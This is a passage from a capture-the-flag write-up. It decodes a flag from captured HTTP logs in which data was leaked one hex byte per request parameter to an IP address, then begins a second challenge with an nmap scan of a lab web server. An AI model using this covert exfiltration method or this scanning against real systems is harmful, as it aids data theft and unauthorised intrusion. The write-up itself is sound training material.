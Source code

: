 ```
          "http.response_for.uri": "http://4.240.83.28/?_=31",
          "http.response_for.uri": "http://4.240.83.28/?_=76",
          "http.response_for.uri": "http://4.240.83.28/?_=65",
          "http.response_for.uri": "http://4.240.83.28/?_=5f",
          "http.response_for.uri": "http://4.240.83.28/?_=34",
          "http.response_for.uri": "http://4.240.83.28/?_=6e",
          "http.response_for.uri": "http://4.240.83.28/?_=64",
          "http.response_for.uri": "http://4.240.83.28/?_=5f",
          "http.response_for.uri": "http://4.240.83.28/?_=57",
          "http.response_for.uri": "http://4.240.83.28/?_=31",
          "http.response_for.uri": "http://4.240.83.28/?_=64",
          "http.response_for.uri": "http://4.240.83.28/?_=65",
          "http.response_for.uri": "http://4.240.83.28/?_=6c",
          "http.response_for.uri": "http://4.240.83.28/?_=79",
          "http.response_for.uri": "http://4.240.83.28/?_=5f",
          "http.response_for.uri": "http://4.240.83.28/?_=75",
          "http.response_for.uri": "http://4.240.83.28/?_=53",
          "http.response_for.uri": "http://4.240.83.28/?_=65",
          "http.response_for.uri": "http://4.240.83.28/?_=64",
          "http.response_for.uri": "http://4.240.83.28/?_=7d",
          "http.response_for.uri": "http://4.240.83.28/?_=0a",
```
Taking it a little further, we can modify grep:
```
grep 'http.response_for.uri": "http://4.240.83.28/?_=' http_output.json | sed -E 's/.*_=(..).*/\1/' | tr '\n' ' '
```
Giving the result we're after
```
46 4c 41 47 7b 49 5f 64 30 6e 74 5f 6b 6e 30 77 5f 77 68 79 5f 37 68 31 73 5f 31 35 5f 73 30 5f 63 30 6d 6d 30 6e 5f 77 34 59 5f 74 30 5f 54 72 61 6e 35 66 65 72 5f 64 34 74 34 5f 62 75 74 5f 35 37 31 6c 6c 5f 65 66 66 65 63 74 31 76 65 5f 34 6e 64 5f 57 31 64 65 6c 79 5f 75 53 65 64 7d 0a
```
Plugging that into CyberChef reveals the flag

:+1: FLAG{I_d0nt_kn0w_why_7h1s_15_s0_c0mm0n_w4Y_t0_Tran5fer_d4t4_but_571ll_effect1ve_4nd_W1dely_uSed}
<hr>

### Traffic Light Protocol
Description - You work as a programmer in the traffic management office of our cities HQ. You have been informed that
there was a hacker in the system. Several systems have been altered and are now not working. You have
been tasked to restore the random traffic light algorithm to 100% efficiency. Flag Format:
flag{Ent3rYourf4agh3r3}

Solution:
nmap reveals that port 80 is open
```
└──╼ $nmap 10.0.254.102
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 21:11 UTC
Nmap scan report for 10.0.254.102
Host is up (0.018s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.34 seconds
```
Viewing in a browser, we see:
```
Traffic Flow
Current Green Light:
trains
```